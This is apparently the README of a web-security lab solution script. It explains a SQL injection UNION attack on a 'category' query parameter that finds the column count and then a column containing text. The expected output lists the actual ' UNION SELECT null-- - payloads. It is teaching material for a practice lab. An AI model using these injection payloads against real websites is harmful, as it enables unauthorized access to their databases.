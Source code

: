 # Hack Steps

1. Inject payload into 'category' query parameter to determine the number of columns.
2. Add one additional null column at a time.
3. Repeat this process, increasing the number of columns until you receive a valid response.
4. After determining the number of columns, replace each column with the desired text one at a time.
5. Repeat this process until you receive a valid response.

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python sql_injection_union_attack_finding_a_column_containing_text.py
```

# Expected Output

```
[#] Injection parameter: category
[#] Desired text: tJRvKS
[*] Trying payload: ' UNION SELECT null-- -
[*] Trying payload: ' UNION SELECT null, null-- -
[*] Trying payload: ' UNION SELECT null, null, null-- -
[#] Number of columns: 3
[*] Trying payload: ' UNION SELECT 'tJRvKS', null, null-- -
[*] Trying payload: ' UNION SELECT null, 'tJRvKS', null-- -
[#] the column containing text: 2
🗹 Check your browser, it should be marked now as solved
```
